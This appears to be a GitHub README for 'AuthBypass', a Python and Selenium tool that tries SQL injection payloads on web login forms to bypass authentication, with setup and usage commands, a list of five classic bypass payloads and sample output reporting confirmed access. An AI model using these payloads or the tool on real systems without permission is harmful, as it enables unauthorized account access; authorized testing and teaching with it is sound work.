 ## **SQL Injection Authentication Bypass Tool**

This Python script automates SQL injection attacks on web application login forms to bypass authentication and gain unauthorized access. It uses Selenium WebDriver for automation, interacting with login forms and attempting various SQL injection payloads to exploit potential vulnerabilities.

---

### **Features**

- **Automated SQL Injection Attacks**: Attempts various SQL injection payloads to bypass login.
- **Selenium WebDriver**: Uses Firefox (via GeckoDriver) to interact with the web forms.
- **Alert Handling**: Handles unexpected JavaScript alerts during the login process.
- **Form Interaction**: Automatically fills in the username and password fields with the payload and submits the form.
- **Success Detection**: Checks for successful login based on redirection or the presence of a logout button.
- **Error Handling**: Catches issues like missing elements or timeouts during form interaction.

---

### **Requirements**

To run the script, you'll need:

- **Python 3.x**: Ensure Python 3 is installed.
- **GeckoDriver**: Required to run Selenium with Firefox. Download it from [GeckoDriver Releases](https://github.com/mozilla/geckodriver/releases) and ensure it's in your PATH.
- **Firefox**: Selenium uses Firefox, so make sure it’s installed.
  
### **Python Libraries**:

You’ll need the following Python libraries:

- `selenium`
- `termcolor`

You can install them using the following command:

```bash
pip install -r requirements.txt
```

---

### **Installation and Setup**

1. **Clone the repository**:

```bash
git clone https://github.com/0xgh057r3c0n/AuthBypass.git
cd AuthBypass
```

2. **Install the required dependencies**:

```bash
pip install -r requirements.txt
```

3. **Install GeckoDriver**:
   - Download **GeckoDriver** from [GeckoDriver Releases](https://github.com/mozilla/geckodriver/releases).
   - Extract it and add it to your system’s PATH or specify its location in the script.

---

### **Usage**

To run the script and attempt authentication bypass, use the following command:

```bash
python3 AuthBypass.py -u <target_url>
```

Replace `<target_url>` with the login page URL you want to test.

Example usage:

```bash
python3 AuthBypass.py -u http://example.com/login
```

This will attempt to bypass the login page using predefined SQL injection payloads.

---

### **Payloads Used**

The following payloads are used in the script for testing SQL injection vulnerabilities:

```plaintext
"or 1=1", "or 1=1--", "admin' --", "admin' or '1'='1", "admin' or 1=1--"
```

These payloads attempt to manipulate the backend SQL queries during authentication.

---


### **Sample Terminal Output with Banner**


```bash

   _____          __  .__   __________                                    
  /  _  \  __ ___/  |_|  |__\______   \___.__.___________    ______ ______
 /  /_\  \|  |  \   __\  |  \|    |  _<   |  |\____ \__  \  /  ___//  ___/
/    |    \  |  /|  | |   Y  \    |   \\___  ||  |_> > __ \_\___ \ \___ \ 
\____|__  /____/ |__| |___|  /______  // ____||   __(____  /____  >____  >
        \/                 \/       \/ \/     |__|       \/     \/     \/ 

    Author: 0xgh057r3con

    Version: 1.0

[*] Attempting authentication bypass on http://example.com/login
[*] Page loaded successfully at http://example.com/login
[*] Trying payload: or 1=1
[*] Trying payload: or 1=1--
[*] Trying payload: admin' --
[*] Trying payload: admin' or '1'='1
[*] Trying payload: admin' or 1=1--
[*] Clicked on the login button using JavaScript.
[*] Redirected to a potential dashboard page with payload.
[*] Logout option detected. Access confirmed.
[*] Browser will remain open for inspection.

```


---


### **Important Notes**

- **Ethical Use**: This tool is for educational purposes and authorized penetration testing only. **Do not use it on systems without explicit permission**.
- **SQL Injection Mitigation**: Some websites may use prepared statements or web application firewalls (WAFs) to prevent SQL injection.
- **False Positives/Negatives**: The script may not detect login success if the application has custom login workflows.

---

### **Contributing**

Feel free to fork the repository and submit pull requests. You can also open issues for bugs or improvements.

---

### **License**

This project is licensed under the MIT License. See the [LICENSE](LICENSE) file for details.

---

### **Disclaimer**

**This tool is for educational and ethical use only. Unauthorized use to access systems is illegal and unethical. Ensure you have permission before performing any security testing.**
